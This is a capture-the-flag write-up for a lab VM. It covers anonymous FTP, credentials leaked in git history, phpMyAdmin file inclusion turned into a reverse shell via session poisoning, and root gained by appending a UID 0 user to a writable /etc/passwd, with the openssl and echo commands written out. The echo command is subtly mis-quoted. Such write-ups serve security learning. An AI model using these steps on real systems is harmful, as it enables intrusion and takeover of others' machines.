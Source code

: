 # Sector443 Aaruush Pwn CTF

## The setup
A pretty straightforward setup of two VMs — the challenge machine and Kali, the latter accessed via SSH.

![setup](/home/icy/Pictures/writeup/setup.png)

## Enumeration

Opening up the machine IP in a browser gives us a simple landing page of what looks like our uni's techfest :)  
Nothing of much importance here. Let's launch our preliminary scans, `dirb` and `nmap`. Here's the `nmap` output.

```
PORT    STATE  SERVICE VERSION
21/tcp  open   ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0        341063997 Aug 07 01:40 aaruush-website.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.56.101
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp  open   ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 da:06:7b:c8:5d:a4:dd:39:d5:ee:db:67:d8:e3:a2:f9 (DSA)
|   2048 23:67:fc:c7:d1:49:f1:58:50:2c:33:bc:e9:80:0e:d9 (RSA)
|   256 cf:05:c8:39:97:00:ef:c4:d2:a8:16:62:03:30:f9:3d (ECDSA)
|_  256 80:d9:90:f7:64:24:76:0e:83:e8:08:dc:ea:fb:2f:83 (ED25519)
80/tcp  open   http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Coming Soon | Aaruush
443/tcp closed https
MAC Address: 08:00:27:E3:A5:AC (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Hmm, it appears that there's an open FTP server running, allowing anonymous login. It also appears to be serving a file. Let's fetch that, shall we? 

```
root@kali:~# ftp 192.168.56.102
Connected to 192.168.56.102.
220 (vsFTPd 3.0.2)
Name (192.168.56.102:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0        341063997 Aug 07 01:40 aaruush-website.zip
226 Directory send OK.
ftp> get aaruush-website.zip
local: aaruush-website.zip remote: aaruush-website.zip
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for aaruush-website.zip (341063997 bytes).
226 Transfer complete.
341063997 bytes received in 1.65 secs (197.7089 MB/s)
ftp> 221 Goodbye.
```

Unzipping the file gives us a Git repository. Looking through the files, you see a few files with the MySQL auth info redacted, like this one here.

![redacted](/home/icy/Pictures/writeup/redactedcreds.png)

But where are the creds? They _were_ there at some point. Taking a peek at the `git log` reveals just that. 

![gitlog](/home/icy/Pictures/writeup/gitlog.png)

Brilliant, so doing a `git diff 4935be9` (the commit before the creds were removed) gives us our MySQL login credentials.

![creds](/home/icy/Pictures/writeup/creds.png)

The `dirb` scan we had run earlier shows us the existence of phpMyAdmin. Trying out our newfound credentials logs us in right away.

![pma](/home/icy/Pictures/writeup/pma.png)

Enumerating further, we find that the version of PMA running on this machine has a recent CVE for it. Here's the CVE description:

>An issue was discovered in phpMyAdmin 4.8.x before 4.8.2, in which an attacker can include (view and potentially execute) files on the server. The vulnerability comes from a portion of code where pages are redirected and loaded within phpMyAdmin, and an improper test for whitelisted pages. An attacker must be authenticated, except in the "$cfg['AllowArbitraryServer'] = true" case (where an attacker can specify any host he/she is already in control of, and execute arbitrary code on phpMyAdmin) and the "$cfg['ServerDefault'] = 0" case (which bypasses the login requirement and runs the vulnerable code without any authentication). 

In short, we have LFI or Local File Inclusion. But that's not of much use on its own. Our goal is to achieve code execution and pop a shell. Reading up a bit on LFI to RCE (especially for this specific exploit), sheds light on the possibility of session poisoning. 

## Exploitation

First off, let's test our LFI. 

![lfitest](/home/icy/Pictures/writeup/lfitest.png)

This exploit is a multi-step procedure. Here's a quick outline:
1. Inject our code into the session file
2. Load it via file inclusion
3. Execute it and listen for a shell

### Step 1 — Injecting our code
To do this, we run a `SELECT` query in the PMA console, like so.

![select](/home/icy/Pictures/writeup/select.png)

We're performing a simple `wget` to fetch our reverse shell. 
This now resides in the session file, which means loading up the session file should execute this code. 

### Step 2 — Loading our code via file inclusion

To load our session file, we need our session ID. This can be found under the 'Storage' tab in Firefox's devtools. 

![sessionid](/home/icy/Pictures/writeup/sessionid.png)

The session file itself is stored at `/var/lib/php5/sess_<id>`. Loading this path via LFI executes our `wget`. Our reverse shell now resides on the filesystem.

### Step 3 — Executing our payload

Our shell got downloaded into the website's root. If you're unsure of where that might be, you can always check using the `phpinfo()` function in place of `system()`, in step 1.

In our case, it is `/var/www/html`. Prep the listener and navigate to the shell's location. 

Voilà! We have our shell, albeit a bit unprivileged. 

![shell](/home/icy/Pictures/writeup/shell.png)

## Privilege escalation

Poking around through the filesystem, one might notice that the `/etc/passwd` file actually has global-write permissions. This means we can add our own user with root privs on the system. 

The general format for an entry in the `passwd` file is like this:

`<username>:<salted password>:<userid>:<groupid>:<gecos>:<home dir>:<shell>`

This is typically generated and appended by the `passwd` / `adduser` commands. Since we can't run them due to lack of privileges, we will have to do it manually. 

The salted password can be generated using `openssl`, like so:
```
$ openssl passwd -1 -salt gaben hunter2
$1$gaben$Wh5akJgd9Y5VfGURWiXE1.        # our salt
```

`echo`ing this into our `passwd` file adds our new (super)user.

```
$ echo "gaben:$1$gaben$Wh5akJgd9Y5VfGURWiXE1.:0:0:/root/root:/bin/bash >> /etc/passwd"
```

Finally, `su` into our user and grab the flag. 

![root](/home/icy/Pictures/writeup/root.png) 



